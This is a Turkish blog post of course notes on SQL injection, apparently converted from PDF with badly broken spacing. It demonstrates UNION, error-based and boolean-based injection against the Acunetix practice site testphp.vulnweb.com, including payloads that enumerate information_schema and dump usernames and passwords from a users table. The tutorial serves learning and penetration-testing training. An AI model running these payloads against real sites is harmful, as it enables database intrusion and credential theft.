









11/7/23, 9:27 PM SQL Injection’ı Bütünüyle Anlamak | MDISEC Neler Anlattı #2 | by İLKER YILMAZ | Nov, 2023 | Medium

SQL Injection’ı Bütünüyle Anlamak | MDISEC Neler Anlattı #2

[İLKER YILMAZ](https://medium.com/@ilkerylmz?source=post_page-----7bcbd5f3fe04--------------------------------)

13 min read · 1 day ago

Herkese merhaba, bugün okuyacağımız notlarda SQL injection ile ilgili konular yer almaktadır. Bu ders kapsamında aldığım notlar ve bilgilerin tamamı burada yer almaktadır.

SQL Injection Nedir ?

Saldırganların yazdığınız web uygulamasını kullanarak veritabanında SQL sorgularını çalıştırabilme olayıdır.

Aslında SQL Injection konusuna giriş yapmadan önce veritabanı davranışlarını ve SQL’i anlamak adına bazı alıştırmalar ve çalışmalar yapalım. Daha sonra da bunların SQL Injection ile olan bağlantısından bahsedelim.

Veritabanı Mantığını Anlamak

Bu kapsamda bilgisayarımızdaki herhangi bir veritabanı ile denemeler yaparak onun davranışlarını anlayabiliriz. Biz mysql ile devam edelim. Öncelikle kullandığım işletim sistemi Arch Linux olduğu için mysql kurulumunu kolay bir şekilde yapabilmiştim. Dolayısıyla o adımları eğer dileyen olursa bir başka yazıda ele alabilirim. Şimdi alıştırmalara ve çalışmalara yakından bakalım.

veritabanı çalışma ortamı

Şimdi sıra sıra bazı SQL sorgularını çalıştırıp bunların ne çıktı verdiğine bakalım beraber.

buradaki sorgu sonucunda gördüğünüz gibi 1\*1 lik bir sonuç verildi. Bundan sonra yapacağımız SQL sorgularında kolon kısmı değişebilir, alt kısımda gelecek olan verimiz ne olabilir diye düşüneceğiz.

SQL Sorgusu 1

https://medium.com/@ilkerylmz/sql-injectionı-bütünüyle-anlamak-mdisec-neler-anlattı-2-7bcbd5f3fe04 2/43
11/7/23, 9:27 PM SQL Injection’ı Bütünüyle Anlamak | MDISEC Neler Anlattı #41 | by İLKER YILMAZ | Nov, 2023 | Medium

Buradaki sorguda da görüldüğü üzere veritabanı çıkarma işlemi yapmaktadır.

SQL Sorgusu 2

Sıradaki SQL sorgusunda da veritabanı sisteminin toplama işlemini yaptığını görebilirsiniz.

SQL Sorgusu 3

Sıradaki işlemimizde sorgu, doğrudan bir dize ifadesini seçiyor ve bu ifadeyi sonuç olarak döndürüyor. Dolayısıyla sonuç, sorgunun kendisi tarafından verilen dize ifadesini yansıtır.

SQL Sorgusu 4

Buradaki sorgumuz ‘2’ ve ‘1’ dize ifadelerini sayılara dönüştürür ve bu sayıları çıkarır. Sonuç olarak ‘1’ döner.

SQL Sorgusu 5

SQL Sorgusu 6

Buradaki sorgumuzda da ‘a’ değerinin 0 olarak ele alındığını ve toplama işlemi neticesinde 2 değerine ulaşıldığını görmekteyiz.

SQL Sorgusu 7

SQL Sorgusu 8

Bu sorgumuzda ise veritabanı iki dizeyi birleştirerek bize bunların birleşimini vermektedir.

SQL Sorgusu 9

Yukarıdaki sorgu concat(a,b) mantığı ile aynı işlevi yerine getirmiştir.

SQL Sorgusu 10

SQL Sorgusu 11

Buradaki sorguda ise öncelikle 2 ve 1 dize olarak birleştirilmiştir, daha sonra da bu ifade sayısal bir değere çevrilerek 21–1 işlemi sonucunda 20 değerini geri döndürmüştür.

SQL Sorgusu 12

Buradaki sorguda ise veritabanının alışık olduğumuz üs alma ifadesini bizim gibi algılamadığını görebilmekteyiz.

SQL Sorgusu 13

SQL Sorgusu 14

Bu SQL sorgusu, mantıksal bir işlem olan “değil” (NOT) işlemini kullanır. Sorgunun sonucu, 1 sayısının mantıksal değilini almakla ilgilidir. 1 sayısı, mantıksal bağlamda “doğru” olarak kabul edilirken, “değil” işlemi kullanıldığında “yanlış” olarak değerlendirilir.

SQL Sorgusu 15

SQL Sorgusu 16

Biraz da kendi veritabanımız üzerinde denemeler yapalım. Öncelikle bir veritabanı oluşturup buradaki tablolara veri eklememiz gerekiyor.

CREATE  dat abase  deneme;  #ver i t abanı nı n  ol uşt ur ul ması

Veritabanı Oluşturma

use  deneme;  #  ol uşt ur duğumuz  ver i t abanı nı n  seçi l mesi

Veritabanı Seçme İşlemi

CREATE  TABLE  user s  ( i d  I NT( 6)  UNSI GNED  AUTO\_I NCREMENT  PRI MARY  KEY, f i r s t name  VARCHAR( 30)  NOT  NULL,  l as t name  VARCHAR( 30)  NOT  NULL) ;

- ol uşt ur ul an  ver i t abanı na  t abl o  ekl enmesi

Yeni Bir Tablo Oluşturma

I NSERT  I NTO  user s  ( f i r st name,  l ast name)  VALUES  ( ' i l ker ' , ' yı l maz' ) ;

- ol uşt ur ul an  t abl oya  ver i  ekl enmesi

Tabloya Veri Ekleme

SELECT  \*  FROM user s;  #  t abl odaki  değer l er i n  l i st el enmesi

Users tablosundaki verilerin sorgulanması

I NSERT  I NTO  user s  ( f i r st name,  l ast name)  VALUES  ( ' i l ker ' , ' yı l maz' ) ;

I NSERT  I NTO  user s  ( f i r st name,  l ast name)  VALUES  ( ' i l ker  ' , ' yı l maz' ) ; I NSERT  I NTO  user s  ( f i r st name,  l ast name)  VALUES  ( ' i l ker   ' , ' yı l maz' ) ;

- i si m  değer i ni n  sonunda  boşl ukl u  bi r  şeki l de  ver i  ekl enmesi

Sonunda boşluk olan ifadelerin veritabanına eklenmesi

SELECT  \*  FROM us er s ;

Eklenen yeni verilerin sorgulanması

Yeni sorgumuzda ismi ilker olan kullanıcıları listelediğimizde sonuna boşluk eklediğimiz kullanıcılar da gelmekte:

SELECT  \*  FROM user s  WHERE  f i r st name=' i l ker ' ;

İşte tam olarak bu durumun siber güvenliğe etkisi bulunmaktadır. Sistemde “ilker” adında bir admin kullanıcısı olduğunu düşünelim. Veritabanına kullanıcı eklerken ‘“ilker”+boşluk’ ile yeni bir kullanıcı ekleyebiliyoruz. Daha sonra parolamı unuttum seçeneğiyle ilerlediğimizde tüm aynı kullanıcılarda işlem yapılabildiğini görebiliyoruz. Bu yüzden veritabanı davranışlarını bilmek SQL injection’u bilmenin temel noktasıdır.

Şimdi de SQL Injection türlerini ele alalım.

1- UNION SQLi

Bu konuya bir sözde kod (pseudo code) üzerinden devam edelim.

Buradaki kod üzerinde ilk kısım hedef web uygulaması olarak belirlenmektedir. alt kısım ise tahmini olarak kod mimarisini oluşturduğumuz backend sistemi olarak düşünülebilir.

Penetrasyon testlerinde genellikle backend kodları görünmemektedir. Elimizde bulunmamaktadır. Dolayısıyla biz uygulamanın davranışlarını izleyerek tahmini bir kod yapısı ortaya çıkarmalıyız.

www. x. com/ ?i d=1

MDI SEC ==========================================

i d  =  r equest . get ( ' i d' )

quer y  =  "SELECT  \*  FROM haber l er  WHERE  i d="+i d

r esul t  =  db. execut e( quer y)

i f  r esul t . si ze( )  >  0;      f or  i  i n  r esul t :

`         `pr i nt ( i . t i t l e) el se:

`     `pr i nt ( "haber  yok")

Şimdi şöyle bir sorgu çalıştırdığımızı düşünelim.

SELECT  \*  FROM haber l er  WHERE  i d=1;

Bu SQL sorgusu çalışacaktır ve aşağıdaki çıktıyı verecektir. Test ortamımızda da bunu görebiliriz.

www. x. com/ ?i d=1

SELECT  \*  FROM haber l er  WHERE  i d  =  1;

<ht ml > MDI SEC </ ht ml >

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - www. x. com/ ?i d=2

  SELECT  \*  FROM haber l er  WHERE  i d  =  2;

<ht ml > i l ker

</ ht ml >

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - www. x. com/ ?i d=2- 1

  SELECT  \*  FROM haber l er  WHERE  i d  =  1; SELECT  \*  FROM haber l er  WHERE  i d  =  2- 1; 

<ht ml > MDI SEC </ ht ml >

Bu sorgu sonucunda dönen sonuç MDISEC ise veritabanında çıkartma işlemi yapabildiğimiz anlamına gelir.

SELECT  \*  FROM haber l er  WHERE  i d  =  2- 1;

SQL injection hikayesi 2 adımdan oluşur. Tüm Güvenlik Zafiyetleri için de genel olarak 2 temel hikaye vardır.

1. Zafiyetin Tespiti
1. Zafiyetin Sömürülmesi

Tespit etmeden sömürü mümkün değildir. Elinizde kaynak kodu var ise kodu okuyarak zafiyet tespiti yapılabilir. Ancak elimizde kod olmadığı durumlarda sistemin davranışlarını izleyerek kodun yapısını da tespit edebiliriz.

Öncelikle kendimize bir referans noktası belirlemeliyiz. Örneğin;

SELECT  \*  FROM haber l er  WHERE  i d  =  1;

sorgusunun getirmiş olduğu “MDISEC” sonucu gibi. Veritabanına bir işlem yaptırıp referans noktamıza geri dönebiliyorsak planladığımız işlemin veritabanında çalıştığı anlamına gelir. Artık sistemdeki bu sorgu ile veritabanına direkt olarak erişimimiz varmış gibi kabul edebiliriz. Peki buradaki sorgu kısmına neler yazılmalı ?

Her SQL Injection senaryosunda bazı engellere takılmaktayız. Örneğin buradaki sorguda;

SELECT  \*  FROM haber l er  WHERE  i d  =  ?

buradan sonraki kısmı değiştirememekteyiz. Bizim isteğimiz ise kendi SQL sorgularımızı yazabilmek. Dolayısıyla veritabanının yapısını anlayabilmek için yapmamız gereken en önemli şeylerden biri de kendi SQL sorgumuzu yazabilmektir.

Burada artık veritabanında ardarda SELECT sorguları çalıştırabilmek için UNION ifadesini kullanabiliriz.

SELECT  \*  FROM haber l er  WHERE  i d  =  1  UNI ON  SELECT  \*  FROM ???

Bu yapı bize 2. SQL sorgusunu yazabilme imkanı sunmaktadır. Peki 2. SQL sorgumuzda neler yazacağız ?

Ayrıca diğer bir sorun da UNION kullandığımızda bir sınırlamaya takılmamızdır. Kolon sayılarının aynı olması gerekmektedir.

Şimdi buraya kadar anlattıklarımızı bir web sitesi üzerinden gösterip deneyelim:

[Home of Acunetix Art](http://testphp.vulnweb.com/?source=post_page-----7bcbd5f3fe04--------------------------------)

[Test site for Acunetix WVS. Warning: This is not a real shop. This is an example PHP application, which is…](http://testphp.vulnweb.com/?source=post_page-----7bcbd5f3fe04--------------------------------)

[testphp.vulnweb.com](http://testphp.vulnweb.com/?source=post_page-----7bcbd5f3fe04--------------------------------)

Burada categories altında posters kısmına gelelim ve işlemlerimize başlayalım.

[http://testphp.vulnweb.com/listproducts.php?cat=1 ](http://testphp.vulnweb.com/listproducts.php?cat=1)Bizleri bu şekilde bir sayfa karşılamakta:

<http://testphp.vulnweb.com/listproducts.php?cat=2>

Buradadaki bağlantıda 2 değeri için 1 tane sonuç gelmekte. Hacker bakış açısıyla insanlar genellikle şöyle düşünmektedir; endpoint’in adı ‘listproducts’ ise veritabanındaki product’lar ile ilgili bir tabloya SELECT sorgusu çalışacak ve bunların sonucu da bize iletilecektir. SELECT sorgusunun yapısını bilmesek de içierisinde ‘cat’ kolonuna bir WHERE şartı gelmek zorunda.

Bu kısımda url’de 2–1 yaptığımızda da bir farklılık görünmemekte. <http://testphp.vulnweb.com/listproducts.php?cat=2-1>

buradan da anlayacağımız şu ki veritabanında bu sorguyu çalıştırdığımıda 2 değerinden sonra istediğimiz şeyi yazabilmekteyiz.

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =1  UNI ON  SELECT  1 

Burada UNION kullandığımız için sağ ve sol taraftaki sorgularımıda kolon sayılarımızın eşit olması gerekmektedir. Biz haberler tablosundaki kolon sayısını bilmemekteyiz. Burada da bilmekteyiz ki SELECT 1 ifadesi çalışmaktadır.

bu sefer bizleri şu şekilde bir sayfa karşılamaktadır:

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =1  UNI ON  SELECT  1

Burada bir hata ile karşılaşmaktayız. Çünkü kolon sayılarımız farklı. Buradaki hatayı görmeyebilirdik. Biz referans noktamıza dönmemekteyiz şuan. Daha önce bizi karşılayan sonuca ulaşamamaktayız. Buradaki hata mesajları genellikle kapalı olur. Bu hatayı aşabilmek için kolon sayılarımızın eşit olması gerekmektedir.

Burada kolon sayılarını eşitlediğimiz zaman referans noktamıza da erişebilmekteyiz artık.

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =1  UNI ON SELECT  1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11

Referans noktamıza dönüş yaparken önemli ipuçları bulunmaktadır. Öncelikle zafiyet tespitinin yapılması gerekmektedir. 2–1 işlemini yaparak matematiksel çıkarma işlemini veritabanında yapabildiğimizi görerek SQL injection zafiyetinin varlığını tespit ettik. Eğer zafiyetin varlığını tespit etmeden UNION SELECT 1,2,3 … şeklinde denemeler yaparak ilerlemeye çalışırsak işlerimiz daha da zorlaşacaktır. Önce zafiyetin varlığını tespit etmeliyiz.

Burada ikinci ipucumuz var.

Referans sayfamız ve kendi SQL sorgumuzu çalıştırdığımız sayfa arasında bir fark bulunmakta.

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =1

sayfamızın sonunda bir sonuç bulunmakta.

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =1  UNI ON 

SELECT  1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11![ref1]

ek olarak gelen sonuç

7–2–9 gelmekte burada. Bunlar nereden geliyor sizce ??? Gelin bunu bir örnekle anlatalım.

Buradaki gibi bir sorgu yazdığımızda gelen sonuçta 2,7 ve 9 görüyorsak bizden önceki SELECT sorgusunun 2. 7. ve 9. indisleri uygulama ekrana yazdırmaktadır. Biz bu indislerde helper fonksiyonlar çağırabiliriz.

SELECT  \*  FROM haber l er  WHERE  i d  =  1 UNI ON  SELECT  1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11

Şimdi denemeler yapalım.

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =1  UNI ON SELECT  1, 2, 3, 4, 5, 6, ver si on( ) , 8, 9, 10, 11

7\. indis için version() fonksiyonunu yazdığımızda aşağıdaki gibi bir sonuçla karşılaşmaktayız.

7\. indis’e gelen sonuç

Artık veritabanından veri çıkartmaya başladığımız aşamadayız.

Aynı zamanda biz sayfanın üst kısımda gelen sonuçların gelmemesini istiyoruz. Yani UNION’dan önceki SELECT sorgusu bir sonuç getirmesin istiyoruz. Bu sayede biz sadece kendi sorgularımızın getirdiği sonuçlara odaklanabiliriz. Bunun için de veritabanında olması mümkün olmayan bir sonucu çağırmaya çalışarak önceki kısımdan bir sonuç gelmemesini sağlayabiliriz. Örneğin buradaki örnekte olduğu gibi id=-9999999 olan bir kullanıcı olmayacağı için şart da sağlanmayacaktır ve bir sonuç gelmeyecektir.

SELECT  \*  FROM haber l er  WHERE  i d  =  - 99999999 UNI ON  SELECT  1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11

Biz kendi hedef sitemizde -1 değerini verdiğimizde de önceki SELECT sorgusundan gelen sonuçları kaldırmış oluyoruz.

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =- 1  UNI ON SELECT  1, 2, 3, 4, 5, 6, ver si on( ) , 8, 9, 10, 11

Artık buradaki gibi bir sayfa bizi karşılamaktadır. Sadece kendi SQL sorgumuzdan gelen sonuçları görebilmekteyiz artık.

version() yerine database() fonksiyonunu kullanırsak mevcut database adını görebiliriz. Yani veritabanındaki tüm helper fonksiyonlar artık kullanımımıza hazır durumda.

Peki bizim yazdığımız SELECT sorgusunda hangi tablodan veri çekeceğiz ? FROM’dan sonra neler yazmalıyız ?

SELECT  \*  FROM haber l er  WHERE  i d  =  1

UNI ON  SELECT  1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11  FROM ?

Artık bu aşamada tablo adını bulmamız gerekiyor. Öncelikle Mysql Workbench’e bir bakalım;

MSQL Workbench

Burada tüm tablo ve kolon isimleri getirilmektedir. Peki mysql workbench bunu nereden bilmektedir ?

Her ilişkisel veritabanı sisteminde o sistemdeki tablo, kolon isimlerini barındıran bir sistem bilgi tablosu vardır.

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =- 1 

UNI ON  SELECT  1, 2, 3, 4, 5, 6, t abl e\_name, 8, 9, 10, 11 

FROM i nf or mat i on\_schema. t abl es  WHERE  t abl e\_schema  =  dat abase( )

Artık bu sorgu ile tüm tablo isimlerine ulaşabilmekteyiz.

artık burada örneğin “users” tablosundan veri çekmek istersek şöye bir sorgulama yapabiliriz:

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =- 1 UNI ON  SELECT  1, 2, 3, 4, 5, 6, col umn\_name, 8, 9, 10, 11 

FROM i nf or mat i on\_schema. col umns  WHERE  t abl e\_name  =' user s'![ref1]

ve bize istediğimiz sonuçları getirmiş olacaktır.

yeni bir sorgu:

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =- 1 UNI ON  SELECT  1, 2, 3, 4, 5, 6, uname, 8, 9, 10, 11  FROM user s

yeni bir sorgu, artık sqlmap’in nasıl çalıştığını da anlayabilmekteyiz.

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =- 1 

UNI ON  SELECT  1, 2, 3, 4, 5, 6, concat ( uname, ' : i l ker : ' , pass) , 8, 9, 10, 11  FROM user s

2- Error-based SQLi

Veritabanında bir syntax hatası olduğunda try — exception koymadıysak, database’den dönen hata mesajını karşımızda görebiliyorsak veri çekmenin güzel bir yöntemi daha var.

SQL injection öğrenirken yanımızda her zaman için bir egzersiz alanı bulunması gerektiğini dile getirmiştik. Biz de bunu mysql ile sağlamaktayız.

Örnek bir mysql yardımcı fonksiyonu — ExtractValue() <https://dev.mysql.com/doc/refman/8.0/en/xml-functions.html>

 bu fonksiyonun yaptığı işlem parametre olarak xml alıp bu xml’i parse edip belirtilen filtreye göre değer döndürülmesini sağlamaktadır.

Önümüze çıkan hata mesajı üzerinden de veri çıkartabiliriz:

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =ext r act val ue( r and( ) ,  concat ( 1, ( SELECT  dat abase( ) ) ) ) ;

3- Boolean-based SQL Injection

Peki kod yapısında bir değişiklik yaparsak ne değişir?

i f  r esul t . si ze( )  >  0;      pr i nt ( "haber  var ") el se:

`     `pr i nt ( "haber  yok")

Her şey değişmiş olur. Artık bize geri dönüş yaptığında SELECT sorgusu bir sonuç yazdırmayacaktır.

quer y  =  SELECT  \*  FROM haber l er  WHERE 

i d=  1  and  SUBSTRI NG(

`     `( SELECT  t abl e\_name  FROM i nf or mat i on\_schema. t abl es  WHERE      t abl e\_schema=dat abase( )  LI MI T  1, 1)  #user s

`     `, 1

`     `, 1

) =' a'

<ht ml > HABER  VAR </ ht ml >

Bu şekilde bir sorgulama yapabiliriz.

Burada bir deneme yanılma yöntemi ile veritabanında aradığımız tablo isimlerini kolayca bulabilmekteyiz.

i f  r esul t . si ze( )  >  0;      pr i nt ( "haber  var ") el se:

`     `pr i nt ( "haber  yok")

Burada deneme yanılma yöntemiyle ilerlediğimizde örneğin ingiliz alfabesini düşünürsek 26 adet küçük harf, 26 adet büyük harf, 10 adet rakam, 8 adet de özel karakter olduğu için 70 adet verimiz vardır. Eğer şanslı değilsek bir karakteri bulmak için 70 defa deneme yapmamız gerekebilir. Peki bunu nasıl hızlandırabiliriz?

Bizi yavaşlatan şey sürekli karşılaştırma yapmamız. İki taraf arasında sürekli karşılaştırma yapmaktayız.

Bunu hızlandırmak için de aşağıda görüldüğü üzere yaklaşık olarak bu şekilde bir işlem yapabiliriz. Yaptığımız karşılaştırma işini binary search mantığı ile yapabiliriz. Bu sayede aradığımız değeri daha kolay bulabiliriz. Örneğin aklınızdan 0 ile 300 arasında bir sayı tuttuğunuzu düşünelim. Bu sayının 170 olduğunu kabul edelim. Karşınızdaki kişiye tahmin etmesini söylediğinizde size (0+300)/2 = 150 demelidir. Daha sonra sizden aldığı direktife göre tahminini artırıp azaltabilir. İkinci aşamada da artırmasını istediğinizde artık 0–150 aralığındaki sayıları tamamen eleyebilmiş olur. Kalan kısım 150–300 aralığı için de (150+300)/2 = 225 değerini söyleyecektir. Bu adımda da tahmin ettiği değeri azaltmasını söylediğinizde artık 225–300 aralığını da eleyerek aradığı değerin sadece 150–225 aralığında olduğunu

saptamış olacaktır. Ve bu şekilde adım adım ilerledikten sonra aradığı değeri kolay bir şekilde bulacaktır.

quer y  =  SELECT  \*  FROM haber l er  WHERE 

i d=  1  and  ASCI I (

`   `SUBSTRI NG(

`     `( SELECT  t abl e\_name  FROM i nf or mat i on\_schema. t abl es  WHERE      t abl e\_schema=dat abase( )  LI MI T  1, 1)  #user s

`     `, 1

`     `, 1

)

) >( 32+129) / 2=~80

- 117  80den  büyük  mü  ?  evet  =  haber  var
- ar t ı k  80den  büyük  bi r  değer  ol duğunu  anl ı yor uz. 
